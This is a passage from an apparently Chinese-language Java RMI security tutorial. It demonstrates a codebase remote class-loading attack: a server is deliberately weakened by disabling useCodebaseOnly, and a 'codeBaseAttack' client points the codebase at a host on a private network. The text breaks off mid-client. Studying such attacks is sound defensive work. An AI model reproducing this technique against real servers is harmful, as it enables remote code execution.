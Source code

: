 

#### 2. 远程加载类

> codebase: 一个神奇的配置

server

```java
package com.dem0.rmi;

import java.rmi.Naming;
import java.rmi.registry.LocateRegistry;

public class RegCalc {
    private void start() throws Exception {
        System.setProperty("java.rmi.server.useCodebaseOnly", "false");
        System.setProperty("java.security.policy", "vuln.policy");
        if (System.getSecurityManager() == null) {
            System.out.println("setup SecurityManager");
            System.setSecurityManager(new SecurityManager());
        }
        Math h = new Math();
        LocateRegistry.createRegistry(1099);
        Naming.rebind("r", h);
    }
    public static void main(String[] args) throws Exception {
        new RegCalc().start();
    }
}

```

client

```java
package com.dem0.vuln;

import com.dem0.rmi.ICalc;

import java.net.MalformedURLException;
import java.rmi.Naming;
import java.rmi.NotBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.ArrayList;
import java.util.List;

public class codeBaseAttack {
    public static class Payload extends ArrayList<Integer> {}
    static {
        System.setProperty("java.security.policy", "vuln.policy");
        System.setProperty("java.rmi.server.codebase","http://192.168.59.1:9080/");
        if (System.getSecurityManager() == null) {
            System.out.println("setup SecurityManager");
            System.setSecurityManager(new SecurityManager());
        }

    }
    public static void main(String[] args) throws RemoteException, NotBoundException, MalformedURLException {
        ICalc r = (ICalc) Naming.lookup("rmi://192.168.59.1:1099/r");
        List<Integer> li = new ArrayList<Integer>();
        li.add(1);
        li.add(2);
        System.out.println(r.sum(li));
```